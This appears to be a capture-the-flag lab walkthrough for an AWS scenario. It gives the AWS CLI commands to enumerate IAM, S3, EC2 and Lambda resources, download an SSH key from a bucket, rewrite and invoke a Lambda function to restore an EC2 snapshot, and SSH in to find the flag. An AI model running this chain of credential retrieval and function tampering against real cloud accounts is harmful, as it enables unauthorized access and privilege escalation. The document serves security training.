 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2. List IAM users:
   ```
   aws iam list-users
   ```

3. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

4. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key.pem ./ssh_key.pem
   chmod 400 ssh_key.pem
   ```

8. List AMIs:
```
aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
```

9. List subnets:
```
aws --profile ls-user --region us-east-1 ec2 describe-subnets
```

10. List security groups:
```
aws --profile ls-user --region us-east-1 ec2 describe-security-groups
```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i ssh_key.pem ec2-user@<public-ip>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





